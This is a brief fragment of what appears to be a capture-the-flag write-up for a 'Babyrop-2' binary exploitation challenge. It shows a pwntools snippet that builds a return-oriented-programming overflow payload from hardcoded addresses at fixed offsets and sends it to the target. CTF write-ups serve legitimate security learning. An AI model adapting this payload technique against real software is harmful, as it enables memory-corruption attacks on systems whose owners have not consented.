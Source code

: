 ![Pasted image 20250716074707](/images/SmileyCTF/SmileyCTF-Babyrop-2/Pasted_image_20250716074707.png)

### The problem of $rbp

Updated payload

```python
print_addr = 0x404010
print_call = 0x401211

payload = flat({
    0: [
        print_addr
        ],
    40:[
        print_call
      ]
    })

io.sendline(payload)
```
